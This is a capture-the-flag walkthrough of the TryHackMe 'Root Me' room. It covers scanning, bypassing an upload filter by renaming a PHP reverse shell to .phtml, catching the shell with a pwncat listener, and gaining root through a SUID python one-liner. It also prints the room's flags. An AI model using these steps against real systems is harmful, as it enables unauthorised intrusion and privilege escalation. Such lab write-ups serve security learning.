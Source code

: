 # Root Me
`url = https://tryhackme.com/room/rrootme`
`date = 01/19/2023`

## Enumeration

1. **Network Enumeration**
```bash
rustscan -a $IP --ulimit 6000 --scripts None
```
* Ports `22` & `80` are open which means that there is a website hosted & SSH/HTTP are the services. Hence, 2 ports are open.

2. **Directory Bruteforcing**
```bash
dirsearch -u http://$IP/
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
/uploads
/panel
/js
/index.php/login
```
* The `/uploads` page shows us the directory listing for this website.
* The `/panel` page allows you to upload files; mostly this page has an artbitrary file upload vuln.
* The `/js` page is just some 'typewriter' java script code. I dont think there is much use to it right now.
* `/index.php/login` page shows us a prompt that gives us the user name  - `root@rootme:~#`.
---

## Exploitation

* On uploading the file on `/panel` I see that ".php" files are not allowed. Which is why I first renmaes the file to `reshell.txt`, which succeeded but could not be executed. So I re-renamed the file to `revshell.phtml` which did the trick.

`pwncat-cs -lp 9999 # $LPORT`

* Shell received.
---

## Post Exploitation

1. Find the `user.txt` flag by literally searching for it in the root directory.
    ```bash
    find / -name "user.txt" -type f 2>/dev/null
    ```
which will give you the user flag - THM{y0u_g0t_a_sh3ll}

2. In order for us to switch user to root, we do some enumeration. We can check `cat /etc/crontab`. There are no crontabs. Another thing we can do is find SUID binaries in this machine --
Use command - `find / -perm -u=s -type f 2>/dev/null`
which returns -
```bash
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python
```

3. For performing privesc, get the command from gtfobins -
`/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`

which should give you root. Now you can just -
```bash
cd /root
cat root.txt
```
this will give you the root flag - `THM{pr1v1l3g3_3sc4l4t10n}`

fin.
